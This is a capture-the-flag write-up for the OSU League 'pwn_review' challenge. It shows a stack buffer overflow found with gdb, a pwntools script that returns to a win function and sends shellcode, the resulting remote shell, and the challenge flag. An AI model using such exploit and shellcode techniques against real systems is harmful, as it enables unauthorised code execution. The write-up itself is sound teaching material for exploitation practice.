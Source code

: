 ```yaml
---
title: "OSU League 2020/2021 - pwn_review Writeup"
date: 2020-10-30
tags:
  - osuleague
  - ctf
  - security
---
```


A simple review challenge.  Let's see how it goes :3

So running the binary, we get some info:
```
This is a review challenge, you know the drill
Return to the win function and get the flag
gimme win function
```
Ok, so we need to return to the win function.  My guess is that this program is going to be susceptible to a buffer overflow.  Turns out it is!  After screaming at it for a bit, I was able to determine the buffer was 32 bytes, so our padding will be 40 bytes.

```
gdb-peda$ r
Starting program: /home/perchik/CTF/osuleague/week4/pwn_review
This is a review challenge, you know the drill
Return to the win function and get the flag
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
```
Sweet, we crashed, and if we look at RBP, we can see we have overwritten it with our Bs. `RBP: 0x4242424242424242 ('BBBBBBBB')`
That means whatever comes next will overwrite the instruction pointer, so we can return to wherever we want!

So let's actually find the address we want to return to.  We can use `objdump -d pwnreview | grep win` to find the location of the win function.
`0000000000400577 <win>:`

Great. So we know our padding will be 40 bytes, and we have the address.  So let's put what we have together so far in python:

```python
from pwn import *
import os, sys
#io = process('./pwn_review')
io = remote('ctf.ropcity.com', 31337)

context(arch = "amd64")

padding = b"A"*40
win = p64(0x400577)
payload = padding + win

log.info(payload)

io.sendline(payload)
io.interactive()
```
And running it we get:
```
[+] Opening connection to ctf.ropcity.com on port 31337: Done
[*] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAw\x05@\x00\x00\x00\x00\x00
[*] Switching to interactive mode
This is a review challenge, you know the drill
Return to the win function and get the flag
nice! I'll execute any shellcode you give me now
$ booop?
[*] Got EOF while reading in interactive
$
$
[*] Closed connection to ctf.ropcity.com port 31337
[*] Got EOF while sending in interactive
```

Hmm, looks like we aren't done quite yet.  We are give a prompt to enter some shell code.  So let's add a few more lines to our exploit that will spawn a shell for us.
```python
from pwn import *
import os, sys
#io = process('./pwn_review')
io = remote('ctf.ropcity.com', 31337)

context(arch = "amd64")

padding = b"A"*40
win = p64(0x400577)

shell = shellcraft.sh() #Pwntools shellcraft OP
shellcode = asm(shell)

payload = padding + win
log.info(payload)

io.sendline(payload)

io.recvuntil("you give me now")

io.sendline(shellcode)
io.interactive()
```

And running it we get a shell!:

```
[+] Opening connection to ctf.ropcity.com on port 31337: Done
[*] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAw\x05@\x00\x00\x00\x00\x00
[*] Switching to interactive mode

$ ls
flag
pwn_review
$ cat flag
osu{pwnt00ls_i$_Ch3A7iNG}
```

This was a pretty sick review covering the stuff we have learned so far! GG
